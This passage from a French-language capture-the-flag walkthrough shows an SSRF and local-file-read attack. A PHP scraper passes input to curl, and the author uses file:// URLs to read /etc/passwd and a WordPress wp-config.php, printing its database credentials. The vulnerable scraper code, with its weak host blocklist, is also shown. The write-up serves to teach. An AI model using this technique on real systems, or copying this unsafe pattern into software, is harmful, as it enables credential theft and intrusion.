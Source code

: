 Nice ! On a ici ce cher ami cURL dont soit le binaire est appelé *directement* via une fonction PHP comme *system()* ou via l'emploi d'une librairie PHP dédiée.  

Dans tous les cas on sait, [comme l'indique la page de manuel](https://linux.die.net/man/1/curl), que cURL supporte différents protocoles et notamment le schéma *file://* :).  

Si on spécifie l'URL *file:///etc/passwd* on obtient ainsi le fichier correspondant avec la liste des utilisateurs (on retrouve le login *alex*).  

Vu qu'ici un Wordpress est installé on va charger l'URL *file:///var/www/html/blog/wp-config.php* contenant les identifiants de connexion à la base de données.  

Deviner le path de ce fichier n'est pas difficile puisque la racine web utilisée est celle que l'on trouve généralement sous Linux (il peut y avoir des variantes avec *htdocs*).  

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'SQLR00T@@' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

Si on regarde le code du scrapper (obtenu de la même façon) on voit qu'il utilise le binaire cURL :  

```php
<?php
$banned_hosts = array();
$banned_hosts[] = "localhost";
$banned_hosts[] = "127.0.0.1";
if (preg_match('/\b'.$_GET['command'].'\b/', 'http') !== false) {
    die('<b><font color="red">ERROR:</b></color> URL must contain http schema');

}
foreach($banned_hosts as $host) {
   if (parse_url($_GET['command'], PHP_URL_HOST) == $host) {
    die('<b><font color="red">ERROR:</b></color> restricted host');
   }
   if (preg_match('/\b'.$_GET['command'].'\b/', $host)) {
        die('<b><font color="red">ERROR:</b></color> restricted host');

    }
}
// ip ranges 127.0.0.1 - 127.255.255.254 also work using ip2long we can use a range
$ip = '2130706433';
$ip2 = '2147483646';
$gethostname = parse_url($_GET['command'], PHP_URL_HOST);
$hostname = gethostbyname($gethostname);
if (ip2long($hostname) <= $ip2 && $ip <= ip2long($hostname)) {
    die('<b><font color="red">ERROR:</b></color> restricted host');

}
system('curl -s ' . escapeshellcmd($_GET['command']) . ' || echo website not found');
?>
```

